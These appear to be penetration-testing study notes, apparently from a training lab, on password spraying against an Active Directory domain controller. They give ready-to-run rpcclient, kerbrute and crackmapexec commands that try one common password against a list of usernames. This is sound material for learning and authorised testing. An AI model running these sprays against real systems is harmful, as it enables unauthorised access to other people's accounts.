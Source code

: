 
## **Internal Password Spraying from a Linux Host**

### **Using a Bash one-liner for the Attack**

```bash
for u in $(cat users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

This command will try to authenticate to the domain controller with each username in the users.txt file and the password `Welcome1`. If the authentication is successful (which is indicated by the keyword `Authority` in the respond), the user's username will be returned.

### **Using Kerbrute for the Attack**
```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 users.txt  Welcome1
```


### **Using CrackMapExec & Filtering Logon Failures**
```bash
crackmapexec smb 172.16.5.5 -u users.txt -p Password123 | grep +
```